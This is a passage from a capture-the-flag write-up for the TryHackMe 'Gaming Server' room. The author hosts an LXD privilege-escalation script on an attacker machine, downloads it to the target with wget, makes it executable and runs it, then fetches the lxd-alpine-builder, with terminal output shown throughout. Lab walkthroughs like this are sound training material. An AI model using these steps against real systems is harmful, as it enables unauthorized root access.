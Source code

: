 ```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now we download the script from our target machine, i will do it in /tmp and make it executable :

```
ohn@exploitable:/tmp$ wget http://10.8.162.183/46978.sh
--2025-07-20 16:52:56--  http://10.8.162.183/46978.sh
Connecting to 10.8.162.183:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1451 (1.4K) [text/x-sh]
Saving to: ‘46978.sh’

46978.sh                          100%[============================================================>]   1.42K  --.-KB/s    in 0s      

2025-07-20 16:52:57 (3.21 MB/s) - ‘46978.sh’ saved [1451/1451]

john@exploitable:/tmp$ ls
46978.sh
systemd-private-c5e02dbe2a954b53a82db9413be62208-apache2.service-jpdte1
systemd-private-c5e02dbe2a954b53a82db9413be62208-systemd-resolved.service-Zmlwy3
systemd-private-c5e02dbe2a954b53a82db9413be62208-systemd-timesyncd.service-REM6Ji
john@exploitable:/tmp$ chmod +x 46978.sh 

```

Now we try to execute it :

```
john@exploitable:/tmp$ bash 46978.sh 

Usage:
        [-f] Filename (.tar.gz alpine file)
        [-h] Show this help panel

```

So we need the .tar.gz alpine file, let's find out what it is .

First we download the lxd alpine builder :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine   
--2025-07-20 18:59:12--  https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
Risoluzione di raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.111.133, ...
Connessione a raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connesso.
Richiesta HTTP inviata, in attesa di risposta... 200 OK
Lunghezza: 8064 (7,9K) [text/plain]
Salvataggio in: «build-alpine.1»

build-alpine.1                    100%[============================================================>]   7,88K  --.-KB/s    in 0,001s  

2025-07-20 18:59:13 (5,48 MB/s) - «build-alpine.1» salvato [8064/8064]
```
